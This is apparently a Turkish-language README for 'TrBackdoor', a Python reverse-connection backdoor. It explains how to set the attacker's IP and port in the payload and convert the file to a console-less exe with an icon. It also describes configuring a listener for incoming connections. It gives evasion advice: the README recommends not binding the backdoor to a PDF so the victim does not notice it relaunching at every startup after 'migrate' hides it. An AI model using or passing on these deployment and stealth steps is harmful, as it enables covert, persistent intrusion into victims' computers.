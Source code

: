 # TrBackdoor
## Backdoor Ayarları
Öncelikle "sysupgrades.py" dosyamızı herhangi bir editör ile açınız ('SublimeText3').<br/>Daha sonra sınıfın dışında yani kod bloklarının altında yer alan"ConfigSocket = MySocket("buraya bağlantı açacak bir ip adresi",port) kısmına backdoor için bir ip adresi ve port numarası giriniz. Yani
![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/BackdoorConfig.png)
## Exe'ye Çevirme
"sysupgrades.py" backdoor'umuzu hedefimize göndermeden önce "pyinstaller" kullanarak exe'ye çevirelim.<br/> Burada size önerdiğim exe'ye çevirme işleminde mutlaka bir icon ekleyiniz ve noconsole komutunu kullanınız. Fakat dosyayı bir başka dosya ile (pdf) birleştirmeyiniz. Çünkü bağlantı sağladıktan sonra "migrate" komutunu kullandığınız sırada backdoor saklanacaktır. Kullanıcı bilgisayarını her başlattığında başlayacaktır. İşte bu başlatma sırasında her defasında backdoor ile birlikte pdf açılmasın ki kullanıcı şüphelenmesin diye exe'ye çevirirken bir dosya ile birleştirilmesini önermiyorum.<br/>
![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ExeConvertor.png)<br/>
## Listener Ayarları
"Listener.py" dosyamızı yine bir editör ile açalım. Ardından yine alt tarafta yer alan<br/> "my_socket_listener = SocketListener("Dinleyici ip adresi",port)" kısmını kendi local ip adresinizi giriniz. Yani<br/>
![ConfigListener](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ListenerSettings.png)<br/>Böylece artık gelen bağlantıları dinlemeye hazırsınız.<br/>[![Watch the video](https://img.youtube.com/vi/T-D1KVIuvjA/maxresdefault.jpg)](https://www.youtube.com/watch?v=NVCAhal6wl8&feature=youtu.be)
